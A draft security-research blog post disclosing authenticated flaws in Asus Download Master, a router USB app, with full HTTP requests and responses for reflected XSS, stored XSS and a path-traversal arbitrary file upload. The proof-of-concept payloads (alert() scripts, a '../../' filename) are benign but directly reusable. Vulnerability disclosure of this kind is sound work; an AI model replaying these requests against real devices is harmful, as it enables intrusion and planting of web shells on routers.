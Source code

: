 ```yaml
---
title: "Asus Download Master - Part 1: XSS, Uploads"
date: 2024-02-23T17:26:23Z
draft: true
tags: ["notes research cve asus"]
---
```


## Asus, the gift that keeps on giving (cves)

something something a cve horse in the mouth

Remember back in the early 2000s, when download managers were all the rage? Well, turns out in 2024 Asus *still* has a product, aptly named "Download Master". This "app" installs to a USB device on your router. As it turns out, it's actually a full on linux environment running `busybox`... that's installed onto your USB stick, lol. 

DM, as I'll refer to it henceforth, was *riddled* with issues-- classic low-hanging bugs that you don't expect to see outside of a CTF. Since this isn't natively on the routers it's not as big a deal, and Shodan reports only around ~2.9k devices worldwide, and Censys about the same:

![alt text](images/shodan-dm.png)

In my cursory prodding, I came across the following bug types, note that they are ALL authenticated:

1. Reflected XSS
2. Stored XSS
3. Arbitrary File Uploads / Path Traversal
4. Command Injections
5. Buffer Overflows

For this post I'll review 1 - 3, and a part two will contain the fun ones.

## Reflected XSS - CVE-

Endpoint: `/check.asp`

The `directurl` POST body parameter is not sanitized prior to being reflected within application responses, resulting in the ability to perform cross-site scripting attacks.

Payload: `"-alert("XSS")-"`

**Request:**
```html
POST /check.asp HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 128
Origin: http://192.168.1.2:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.2:8081/check.asp
Cookie: hwaddr=3C:7C:3F:53:C1:00; apps_last=downloadmaster; clickedItem_tab=0; asus_token=ERc5RMR5mV5iDo6sZjtHhvTdfjuVMyo
Connection: close

flag=&login_username=[REDACTED]&login_passwd=[REDACTED]&foilautofill=&directurl=%2Fdownloadmaster%2Ftask.asp"-alert("XSS")-"
```

**Response:**
```html
HTTP/1.1 200 OK
Set-Cookie: AuthByPasswd=asus_app_token:9ecafe2c4909d1b93bfa474fe119512f; path=/downloadmaster/; httponly;
Cache-Control: no-store
Cache-Control: no-cache
Content-Type: text/html
Content-Length: 886
Connection: close
Date: Thu, 27 Jul 2023 22:58:34 GMT
Server: lighttpd/1.4.39

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<html xmlns:v>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta http-equiv="Expires" content="-1" />
<meta HTTP-EQUIV="Cache-Control" CONTENT="no-cache">
<meta http-equiv="Pragma" content="no-cache" />
<title>Login Jump</title>
<script type="text/javascript" src="jquery.js"></script>
</head>
<body>
<script>
var httpTag 		= 'https:' == document.location.protocol ? false : true;
var directurl_host 	= document.location.host;
var url 			="/downloadmaster/task.asp"-alert("XSS")-"";
if(httpTag)
self.location = "http://" +directurl_host	+ url;
else
self.location = "https://" +directurl_host	+ url;
</script>
</body>
</html>
```

**Screenshot:**
![alt text](images/reflected-xss.png)

## Stored XSS - CVE-

Endpoint: `/downloadmaster/dm_apply.cgi`

The `usb_dm_url` URL parameter is not sanitized prior to it being stored as a download task. This value is the reflected within the `/downloadmaster/task.asp` page unsafely, resulting in the ability to perform stored-cross site scripting attacks.

**Request:**
```html
GET /downloadmaster/dm_apply.cgi?action_mode=DM_ADD&download_type=5&again=no&usb_dm_url=%3cscript%3ealert('stored-xss')%3c/script%3e HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Referer: http://192.168.1.2:8081/downloadmaster/task.asp
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613; 
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Connection: close
Date: Thu, 27 Jul 2023 23:09:48 GMT
Server: lighttpd/1.4.39
Content-Length: 10

ACK_SUCESS
```

A request to `dm_print_status.cgi` (sent as part of loading `task.asp`) returns the stored xss:

**Request:**
```
GET /downloadmaster/dm_print_status.cgi?action_mode=All HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613;
```

**Response:**
```
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Thu, 27 Jul 2023 23:13:37 GMT
Server: lighttpd/1.4.39
Content-Length: 113

["1","<script>alert('stored-xss')</script>","0.0","","notbegin","OTHER","","0 KBps","0 KBps","0","","0.0000",""]

```

Screenshot:
![alt text](images/stored-xss.png)

## Arbitrary Uploads / Path Traversal - CVE-

Endpoint: `/downloadmaster/dm_uploadbt.cgi`

It is possible to upload arbitrary files to arbitrary locations by manipulating parameter values in file uploads sent to the `dm_uploadbt.cgi` endpoint. It is possible to include path traversal characters within the `filename` parameter of POST requests made to this endpoint and cause the file being uploaded to be stored anywhere, overwriting existing files.

Additionally, no restrictions on file contents were observed, making it possible to upload arbitrary files such as malware or web shells.

**Request:**
```html
POST /downloadmaster/dm_uploadbt.cgi HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 273
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBfjAbnA3mHUXAZ6q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:abf4c1e97f3ad73ff53c25399b8f8c42;

------WebKitFormBoundaryBfjAbnA3mHUXAZ6q
Content-Disposition: form-data; name="filename"; filename="../../asusware.arm/etc/downloadmaster/downloadmaster/test.asp"
Content-Type: application/x-bittorrent

hello from n0rthw4rd
------WebKitFormBoundaryBfjAbnA3mHUXAZ6q--
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Tue, 25 Jul 2023 14:44:35 GMT
Server: lighttpd/1.4.39
Content-Length: 73

<script>parent.hideLoading();parent.response_dm_add("ACK_FAIL");</script>
```

Although the application's response indicates the request was not successful, navigating to the `/downloadmaster/test.asp` URI returns the uploaded file. This can be additionally validated by connecting to the device via SSH and validating the file's presence.

![alt text](images/arb-uploads.png)